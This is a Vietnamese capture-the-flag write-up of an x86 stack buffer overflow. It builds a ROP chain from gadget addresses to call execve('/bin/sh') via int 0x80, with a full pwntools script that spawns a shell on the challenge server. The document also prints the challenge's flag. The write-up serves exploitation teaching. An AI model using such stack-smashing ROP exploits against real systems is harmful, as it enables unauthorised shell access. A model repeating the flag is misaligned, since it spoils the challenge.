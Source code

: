 ## ROPchain - x86 - ROP chains: nc 45.122.249.68 10002

Đầu tiên ta có source code của file thực thi như sau:
```C
#include <stdio.h>

char shell[] = "/bin/sh";
void SetBuf(){
	setvbuf(stdout,0,_IONBF,0);
	setvbuf(stdin,0,_IONBF,0);
	setvbuf(stderr,0,_IONBF,0);
}
void Vuln(){
	char buf[128];
        puts("Insert ROP chain here:");
        read (0, &buf,0x100);
}
int main(){
	SetBuf();
	puts("Wanna.One");
	puts("Muon gioi phai lam viec kho");
	Vuln();
	return 0;
}
```
Ta thấy biến buf có 128 byte và stack frame thì cần 12 byte nữa để tới return address, vì vậy payload của ta sẽ có dạng:
```
"A" * 140 + [chuỗi ROP]
```

Để gọi và thực thi system("/bin/sh") ta cần thực hiện tìm các chain có kiểu:
```assembly
pop eax;
ret;
```
![image](https://user-images.githubusercontent.com/64201705/122765098-59fe5900-d2ca-11eb-89b6-df9995cbd1d3.png)

câu lệnh này nằm ở địa chỉ 
```python
0x080a89e6 : pop eax ; ret
```

tiếp tục ta tìm kiếm chuỗi pop edx, ecx, ebx và ret:
câu lệnh này nằm ở địa chỉ
```python
0x0806e051 : pop edx ; pop ecx ; pop ebx ; ret
```

tiếp theo ta sẽ tìm hai câu lệnh để gọi systemcall là int 0x80 và /bin/sh

![image](https://user-images.githubusercontent.com/64201705/122765787-0cceb700-d2cb-11eb-8f5e-143c4ed28106.png)

Hai câu lệnh này lần lượt nằm tại các địa chỉ:
```python
0x080d9068 : /bin/sh
0x080495a3 : int 0x80
```

Như vậy ta đã đủ số lượng câu lệnh để thực hiện gọi shell:
Thực hiện code python:
```python
from pwn import *

p = remote('45.122.249.68',10002)

pop_eax_ret = 0x080a89e6
pop_edx_ecx_ebx_ret = 0x0806e051
int_0x80 = 0x080495a3
binsh = 0x080d9068
payload = "A"*140
payload += p32(pop_eax_ret)
payload += p32(0xb)
payload += p32(pop_edx_ecx_ebx_ret)
payload += p32(0)
payload += p32(0)
payload += p32(binsh)
payload += p32(int_0x80)
p.sendline(payload)
p.interactive()
```

```bash
python2 test.py
```

Ta được:
![image](https://user-images.githubusercontent.com/64201705/122766124-5ddeab00-d2cb-11eb-87d7-3a17582ef7e0.png)

Như vậy flag là:
```
flag{dung_thay_hoa_no_ma_ngo_xuan_ve}
```
